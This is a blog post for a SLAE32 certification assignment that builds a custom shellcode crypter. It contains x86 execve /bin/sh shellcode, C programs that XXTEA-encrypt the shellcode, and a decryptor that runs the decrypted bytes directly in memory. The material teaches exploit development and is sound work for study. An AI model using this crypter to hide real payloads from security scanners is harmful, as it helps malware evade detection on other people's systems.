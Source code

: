 ```yaml
---
layout: post
title: "SLAE32: Creating custom crypter shellcode"
categories: blog
excerpt:
comments: true
share: true
tags: [assembly, x86, pentesting, hacking, exploit-development, shellcode, slae32]
image:
  feature:
date: 2018-01-22
---
```

---
### The blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br />
Student ID: SLAE-990

Assignment #7

---

## Description
* Create a custom crypter like the one shown in the “crypters” video
* Free to use any existing encryption schema
* Can use any programming language

## Choosing a symmetric encryption algorithm
For the encryption and decryption of the shellcode I have chosen to use the Corrected Block TEA (XXTEA) block cipher.  Further reading on this implementation can be found here => [XXTEA](https://en.wikipedia.org/wiki/XXTEA).

<img src="{{ site.url }}/images/slae32/07-01.png"/><br/>
One round of XXTEA [(Source)](https://en.wikipedia.org/wiki/XXTEA)<br/>

As to not reimplement XXTEA itself I discovered a C implementation of the cipher on github at [XXTEA encryption arithmetic library](https://github.com/xxtea/xxtea-c). This implementation will allow me to encrypt the shellcode and emmit it in shellcode form.

## Shellcode to encrypt
I will be using some shellcode from earlier to spawn a simple /bin/sh.  The assembly to spawn this shell is:
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	mov al, 11
	int 0x80
```

The generated shellcode from objdump that we will encrypt is:
```
[sengen@manjaro-x86 assignment7]$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

### Encrypting shellcode
For the encryption we will take the shellcode we generated above and hardcode it into our encrypt.c source code.  Utilizing the XXTEA algorithm we'll encrypt each byte and output it in shellcode format.

#### encrypt.c
```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./encrypt <key>");
        exit(1);
    }

    unsigned char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
    size_t shellcode_len = strlen((const char *) shellcode);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before encryption:");
    for (int counter = 0; counter < shellcode_len; ++counter) {
        printf("\\x%02x", shellcode[counter]);
    }

    size_t len;
    unsigned char *encrypt_data = xxtea_encrypt(shellcode, strlen(shellcode), key, &len);

    printf("\n\nEncrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(encrypt_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)encrypt_data[counter], (int)encrypt_data[counter+1]);
    }

    printf("\n");

    return 0;
}
```
#### Compiling and running the encrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall encrypt.c xxtea.c xxtea.h -o encrypt
[sengen@manjaro-x86 assignment7]$ ./encrypt slae32-assembly-expert
Shellcode before encryption:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Encrypted shellcode:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e
```

### Decrypting shellcode
Now we have an encrypted version of the shellcode.  We'll copy this out and place it into our decrypt.c program.  This does the opposite and performs the decryptions of each byte and again we'll print it to the screen.  Additionally, we'll now execute the shellcode which will spawn our /bin/sh.

```c
#include <stdio.h>
#include <string.h>
#include "xxtea.h"

int main(int argc, char* argv[]) {
    if (argc != 2) {
        printf("%s\n", "usage: ./decrypt <key>");
        exit(1);
    }

    unsigned char encrypted_data[] = "\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e";
    size_t encrypted_data_len = strlen((const char *) encrypted_data);
    const char *key = argv[1];

    printf("%s\n", "Shellcode before decryption:");
    for (int counter = 0; counter < encrypted_data_len; ++counter) {
        printf("\\x%02x", encrypted_data[counter]);
    }

    size_t len;
    unsigned char *decrypted_data = xxtea_decrypt(encrypted_data, encrypted_data_len, key, &len);

    printf("\n\nDecrypted shellcode:\n");
    for (size_t counter = 0; counter < strlen(decrypted_data); counter += 2) {
        printf("\\x%02x\\x%02x", (int)decrypted_data[counter], (int)decrypted_data[counter+1]);
    }

    printf("\n\nExecuting shellcode.");

    int (*ret)() = (int(*)())decrypted_data;
    ret();

    return 0;
}
```

#### Compiling and running the decrypt.c program
```
[sengen@manjaro-x86 assignment7]$ gcc -Wall decrypt.c xxtea.c xxtea.h -o decrypt
[sengen@manjaro-x86 assignment7]$ ./decrypt slae32-assembly-expert
Shellcode before decryption:
\x5b\x69\x1c\xed\x22\x51\x2c\xcc\x53\x92\x18\xa4\xed\x12\x31\xb2\x86\xe0\x05\xfe\x96\xd5\x71\xd5\x7e\x5b\xd6\x10\x2f\xe9\xf5\x9e

Decrypted shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00

sh-4.4$
```

### Source code
All source code for this assignment can be found at<br/>
 [https://github.com/tdmathison/SLAE32/tree/master/assignment7](https://github.com/tdmathison/SLAE32/tree/master/assignment7).